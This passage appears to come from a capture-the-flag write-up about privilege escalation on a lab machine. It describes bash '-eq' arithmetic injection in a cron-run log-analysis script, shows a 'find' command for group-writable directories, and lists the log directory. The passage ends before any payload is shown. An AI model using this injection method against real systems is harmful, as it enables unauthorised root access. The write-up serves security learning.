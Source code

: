 ```bash
if [[ "$existing_code" -eq "$code" ]]; then
    new_count=$((existing_count + 1))
    STATUS_CODES[$i]="${existing_code}:${new_count}"
    break
fi
```

If we search for info related to `-eq` bash privilege escalation, we can find this:

Article: https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/bash-eq-privilege-escalation/


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250619165746.png)

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250619165925.png)

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250619165937.png)

We know the script is being run by a cronjob each minutes and it reads from two log files, even if we can modify the script (which we can), the cronjob wouldn't allow us to get a shell as root by doing the simple trick of:

```
mv script.sh script.sh.bak
echo 'shell' > script.sh
```

Because it doesn't simply run the script.

That's why, we need to exploit the command injection on the file, if we check the permissions of the `developers` group, which we are part of, we can find we can write to:

```bash
miranda-wise@eureka:/tmp$ find / -group developers -perm -g=w 2>/dev/null

/var/www/web/user-management-service
/var/www/web/cloud-gateway
```

Those two are the directories where the log files are available, we can simply delete the current log, any of them two and modify the contents as shown on the article to receive a shell once the cronjob triggers:

```
miranda-wise@eureka:/var/www/web/user-management-service/log$ ls -la
total 52
drwxrwxr-x 3 www-data developers  4096 Jun 19 22:00 .
drwxrwxr-x 6 www-data developers  4096 Mar 19 22:07 ..
-rw-rw-r-- 1 www-data www-data   16974 Jun 19 22:02 application.log
-rw-rw-r-- 1 www-data www-data    6558 Apr 23 07:36 application.log.2025-04-22.0.gz
-rw-rw-r-- 1 www-data www-data    6571 Jun 19 13:13 application.log.2025-04-23.0.gz
drwxrwxr-x 2 www-data www-data    4096 Apr  9 18:20 archive
-rw-rw-r-- 1 www-data www-data     713 Jun 19 22:00 log_analysis.txt
```
